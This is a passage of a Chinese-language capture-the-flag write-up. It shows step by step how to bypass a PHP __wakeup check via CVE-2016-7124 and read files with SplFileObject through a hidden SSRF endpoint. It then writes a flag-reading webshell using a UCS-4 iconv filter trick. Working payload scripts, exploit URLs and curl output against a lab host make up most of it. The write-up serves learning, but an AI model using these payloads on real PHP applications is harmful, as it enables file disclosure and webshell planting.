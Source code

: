 经过对上面的源代码进行审计可以发现，并没有危险的类可以使用，那么就只能使用原生类进行反序列化操作，并且存在 `__wakeup() ` 来对参数和类名进行了限制，但是联想到 php7.0.9是存在 [CVE-2016-7124](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2016-7124) 漏洞的，因此可以绕过对应的校验。 随后使用原生类 `SplFileObject` 来对文件进行读取即可。并且根据 `.listing` 文件显示，我们还有一个 `shellme.php` 的源码并不知道。

序列化payload生成

```
<?php
class Verify
{
    public $classname = 'SplFileObject';
    public $param = "./shellme.php";
    public $checkMethod;
}

$poc = new Verify();
echo serialize($poc);
```

读取shellme.php的源代码

```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=y0u_w1ll_s3e_Me.php?p=O:6:%22Verify%22:4:{s:9:%22classname%22;s:13:%22SplFileObject%22;s:5:%22param%22;s:13:%22./shellme.php%22;s:11:%22checkMethod%22;N;}%22);
```

![](README.assets/截屏2021-05-20 上午10.34.40.png)

从源码上面的分析可以知道，首先提醒了flag的位置，其次可以通过 `file_put_contents` 函数写一个 webshell进去，此处限制了一些编码器但是并没有对 `UCS-4`编码器限制，所可以我们可以利用如下payload写入读flag的webshell

payload的生成脚本

```
$ucscode = iconv("UCS-4LE", "UCS-4BE", "<?php print_r(file_get_contents('/var/www/flag'));?>");
echo "php://filter/convert.iconv.UCS-4LE.UCS-4BE|" . $ucscode . "/resource=z.php";
```



```
http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi?s=shellme.php?c=php://filter/convert.iconv.UCS-4LE.UCS-4BE|hp?%3Crp%20p_tniif(rg_elc_teetno(stnav/%27ww/rlf/w)%27ga%3E?;)/resource=z.php
```



curl访问得到flag

```
❯ curl -i http://192.168.43.184:3000/sEcRet_sSrF_h0den_aPi\?s\=z.php
HTTP/1.1 200 OK
X-Powered-By: Express
Content-Type: text/html; charset=utf-8
Content-Length: 107
ETag: W/"6b-NSzSR8rMungbHHh23aYfDZsoa2M"
Date: Thu, 20 May 2021 01:38:19 GMT
Connection: keep-alive
Keep-Alive: timeout=5

hp?<xe p)(tiphp;f//:etlioc/rrevnci.t.vno-SCU.EL4-SCU|EB4flag{9566cc50d919461219718fb4f747c48f}
ser/cruo.z=e%
```

